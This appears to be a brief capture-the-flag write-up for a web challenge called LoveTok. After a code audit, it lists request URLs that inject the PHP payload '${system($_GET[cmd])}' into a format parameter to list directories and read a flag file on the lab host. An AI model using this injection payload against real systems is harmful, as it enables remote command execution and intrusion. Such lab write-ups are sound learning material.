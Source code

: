 # LoveTok

## Code Audit

- find url `http://159.65.20.166:31685/?format=r` with info exhibition

![image-20240119140745106](./LoveTok.assets/image-20240119140745106.png)

![image-20240119140749067](./LoveTok.assets/image-20240119140749067.png)

![image-20240119140752469](./LoveTok.assets/image-20240119140752469.png)

## Command Injection

- `http://159.65.20.166:31685/?format=${system($_GET[cmd])}&cmd=ls`

![image-20240119140808093](./LoveTok.assets/image-20240119140808093.png)

- `http://159.65.20.166:31685/?format=${system($_GET[cmd])}&cmd=ls ../`

![image-20240119140827814](./LoveTok.assets/image-20240119140827814.png)

- `http://159.65.20.166:31685/?format=${system($_GET[cmd])}&cmd=cat ../flag8AiQ0`